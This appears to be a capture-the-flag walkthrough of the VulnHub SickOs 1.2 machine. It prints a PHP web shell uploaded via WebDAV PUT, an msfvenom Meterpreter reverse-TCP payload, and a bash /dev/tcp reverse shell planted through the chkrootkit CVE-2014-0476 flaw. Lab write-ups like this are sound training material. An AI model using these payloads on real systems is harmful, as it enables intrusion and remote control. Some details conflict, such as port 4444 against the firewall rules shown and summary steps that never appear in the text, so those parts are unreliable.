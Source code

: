 # SickOs-1.2
SickOs 1.2 - VulnHub Walkthrough
This is a walkthrough of the SickOs 1.2 machine from VulnHub. It’s the sequel to SickOs 1.1, and it's both more challenging and more realistic, simulating situations one might encounter during a real-world penetration test.

**🔍 Discovery**
After downloading and running the machine, we see that it was assigned the IP 192.168.2.4. A port scan using nmap reveals ports 80 (HTTP) and 22 (SSH) open.
**>Target IP: 192.168.2.4**
**>Initial Scan:**
<pre>
nmap -A -T5 192.168.2.4
root@kali:~/sickos2# nmap -A -T5 192.168.2.4

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
| 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_ 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open http lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
**Open Ports:**

**22/tcp:** SSH (OpenSSH 5.9p1)
**80/tcp:** HTTP (lighttpd 1.4.28)

**🌐 Web Enumeration**
We open a web browser, browse to http://192.168.2.4 and see the following page

The usage of **dirb** reveals the listable directory **/test.**
<pre>
root@kali:~/sickos2# dirb http://192.168.2.4
---- Scanning URL: http://192.168.2.4/ ----
+ http://192.168.2.4/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://192.168.2.4/test/

/index.php
/test/   ← Listable directory
</pre>

**WebDAV Detection**

Making a HTTP OPTIONS request on this path shows that **/test** looks like a WebDAV directory.

<pre>
root@kali:~/sickos2# curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2024 16:32:35 GMT
Server: lighttpd/1.4.28
</pre>
Supports PUT, confirming WebDAV is enabled.

**🛠 Exploitation (Web Shell Upload)**
We also note that the web server seems to accept HTTP PUT requests. The PUT method should allow us to upload arbitrary files on the web server. Let’s try it out. We create a file named **shell.php** containing the following code:
<pre>
<?php
echo shell_exec("id");
?>
</pre>

Upload using:
<pre>
  curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>
Browse to /test/shell.php to confirm code execution as www-data.


**🧠 Reverse Shell with Meterpreter**

Now that we know we can upload arbitrary PHP scripts and execute them, let’s try to spawn a shell on the machine. We use msfvenom to generate the appropriate payload.
<pre>
  root@kali:~/sickos2# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.3 LPORT=4444 > shell.php
</pre>
Note that 192.168.2.3 is the IP of our Kali box, where we will listen for the incoming reverse shell. Using the same command as before, we start by uploading this script on the server.
<pre>
root@kali:~/sickos2# curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>

Start **Metasploit listener**:
To catch our reverse shell.
<pre>

root@kali:~/sickos2# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.2.3:4444 
[*] Starting the payload handler...

</pre>

Then, from another terminal, we trigger the PHP script that will connect back to our attacking machine.
<pre>
  root@kali:~/sickos2# curl 192.168.2.4/test/shell.php
  > ls
execute.php
shell.php
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

**📈 Privilege Escalation**
Check installed packages:**chkrootkit** is present (v0.49)

Vulnerable to **CVE-2014-0476**

Exploiting CVE-2014-0476
Write to /tmp/update:
<pre>
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.3/443 0>&1
</pre>  
Make it executable:
<pre>
  chmod +x /tmp/update
</pre>
Start listener:
<pre>
  nc -lvp 443
</pre>
Since chkrootkit seems to only run daily, we expect to have to wait until the next day to obtain a root shell. Surprisingly, it comes to us after a few minutes like an early Christmas present
We can now get the flag, located in the /root directory.
**🏁 Getting the Flag**
<pre>
  cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
</pre>
**🔐 Firewall Rules (/root/newRule)**
<pre>
  INPUT: DROP (only allows ports 22, 80)
OUTPUT: DROP (allows outbound 443, 8080)
</pre>
**⏱ Chkrootkit Cron Schedule**
Despite being in /etc/cron.daily/, it also exists in:
<pre>
/etc/cron.d/chkrootkit  
</pre>

<pre>
**Summary**
| Phase           | Technique Used                               |
| --------------- | -------------------------------------------- |
| Enumeration     | Nmap, Dirb, WebDAV detection                 |
| Initial Access  | PUT PHP file upload                          |
| Reverse Shell   | Meterpreter + Netcat fallback                |
| Firewall Bypass | Netcat-based port scanning                   |
| PrivEsc         | CVE-2014-0476 via chkrootkit & cron abuse    |
| Root Access     | Netcat listener + shell script               |
| Flag            | `/root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt` |

</pre>












